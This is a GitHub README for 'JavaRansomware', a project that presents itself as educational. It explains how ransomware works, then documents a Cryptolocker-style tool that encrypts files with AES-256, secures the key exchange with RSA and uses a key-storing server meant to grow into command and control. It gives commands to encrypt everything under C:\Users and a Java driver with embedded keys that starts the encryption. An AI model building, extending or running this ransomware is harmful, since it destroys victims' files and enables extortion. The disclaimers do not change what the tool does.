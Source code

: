 # JavaRansomware
<p>Ransomware is malware for data kidnapping, an exploit in which the attacker encrypts the victim's dataRansomware stops you from using your PC.Ransomware spreads through e-mail attachments, infected programs and compromised websites. A ransomware malware program may also be called a cryptovirus, cryptotrojan or cryptoworm It holds your PC or files for "ransom".</p>

#What does ransomware do?
<p>There are different types of ransomware. However, all of them will prevent you from using your PC normally, and they will all ask you to do something before you can use your PC.

They can target any PC users, whether it’s a home computer, endpoints in an enterprise network, or servers used by a government agency or healthcare provider.

Ransomware can:</p>

* Prevent you from accessing Windows.

* Encrypt files so you can't use them.

* Stop certain apps from running (like your web browser).

<p>Ransomware will demand that you pay money (a “ransom”) to get access to your PC or files. We have also seen them make you complete surveys.

There is no guarantee that paying the fine or doing what the ransomware tells you will give access to your PC or files again.</p>

# Project Summary
This project aims to build an almost functional crypto-ransomware for educational purposes, written in in pure java. Basically, it will encrypt your files in background using AES-256, a strong encryption algorithm, using RSA-4096 to secure the key exchange with server. Yeah, a Cryptolocker like malware.

It is composed of two main parts, the server and the malware itself.

The server is responsible for store the Id and the respective encryption key and possibly act as a Command and Control server in the near future.

The malware encrypt with your RSA-4096 public key any payload before send then to the server. This approach with the https transport together make the security and authentication almost unbreakable (in theory)

#Usage and How it Works
<p>The easiest way to run this Project is to use the the .jar open a cmd terminal and simply run the below commands <p>

 ```
 $ cd JarPath
```

<p>Encrypt All Files in the Current Path <p>
 ```
 $ java -jar JavaRansomware.jar C:\Users Encrypt
```

<p>Decrypt All Files in the Current Path <p>
 ```
 $ java -jar JavaRansomware.jar C:\Users Decrypt
```
<p>if you want to use the project programmatically just put the below code in your project and simply run it. Don't forget to give Input arguments from the Command-Line Arguments. i've put  a printscreen to see how to give Paramaters</p>

<h2>Java Manual</h2>
```java
public class App {
 
  private static final String PubicKey = "MFwwDQYJKoZIhvcNAQEBBQADSwAwSAJBAJCw1HHQooCFGsGhtxNrsdS6dDq5jtfHqqLInCj7qFlDaD/Sll5+BAUjV0GU/c+6PVyMKzmLrHh49eeGQy1ETN8CAwEAAQ==";
    private static final String PrivateKey = "MIIBVAIBADANBgkqhkiG9w0BAQEFAASCAT4wggE6AgEAAkEAkLDUcdCigIUawaG3E2ux1Lp0OrmO18eqosicKPuoWUNoP9KWXn4EBSNXQZT9z7o9XIwrOYuseHj154ZDLURM3wIDAQABAkA9AnLx8tkye+2GTBwYEkcPvfcYc/mpPsXSkehW15Zq3IALx3Kr5GgKGOaB2FK6PU0QzEPQbNJXdA5ZPjwTDcQBAiEA1/zINRVlrLpw2HPfqsYQ8ZSDuG2rVUUKKmKgJQXeQ98CIQCrfsw2+VKOaFoJm5BpVxIT5nsE8CXn4fr/WSFuklMXAQIgTKWnAreCKmbLTvTn5bl+H8zdZaB9kbf7YIk5XYoUky8CIQCL2ccnPYK5ZxelphrKDJtNZzMC/+OpiXtqKIE+7kycAQIgRK/DUhWUgSQV5u7VoCHDyLPCntjFMGBsg7Wi1uq+EDM=";
    
    private static final String ENCRYPT = "ENCRYPT";
    private static final String DECRYPT = "DECRYPT";

    public static void main(String[] args) throws RansomwareException {

        Processing(args[0], args[1]);
    }

    private static void Processing(final String toSearch, final String attack) throws RansomwareException {
        final RansomProcess p = new RansomProcess(toSearch);

        if (attack.equalsIgnoreCase(ENCRYPT))
            p.StartEncryptProcess(PubicKey);
        else if (attack.equalsIgnoreCase(DECRYPT))
            p.StartDecryptProcess(PrivateKey);
        else
            throw new RansomwareException("Mismatched Values Try again with correct one");

    }

}
```
---

> DON'T RUN ransomware.exe IN YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT!

#Legal Warning
<p>While this may be helpful for some, there are significant risks. JavaRansomware may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail if if you will use it for malicious purposes.</p>


#Contribute
 1. Fork it: git clone https://github.com/PanagiotisDrakatos/JavaRansomware.git
 2. Create your feature branch: git checkout -b my-new-feature
 3. Commit your changes: git commit -am 'Add some feature'
 4. Push to the branch: git push origin my-new-feature
 5. Submit a pull request :D
 
#License
<p> This project is licensed under the MIT License - see the<a href="https://github.com/PanagiotisDrakatos/JavaRansomware/blob/master/LICENSE">Licence.md</a>file for details</p>
